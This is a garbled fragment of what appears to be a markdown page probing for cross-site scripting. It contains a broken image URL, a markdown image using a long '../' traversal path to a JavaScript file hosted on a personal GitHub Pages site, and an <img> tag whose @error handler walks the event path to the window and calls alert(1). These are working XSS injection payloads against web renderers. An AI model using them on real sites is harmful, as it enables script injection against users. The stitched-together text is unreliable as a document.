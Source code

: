 ![](../../../../../../../img/onload/../../r89shi/r89shi.github.io/blob/master/teste.js?w=10)

<img src='' @error='e=$event.composedPath().pop().alert(1)'>
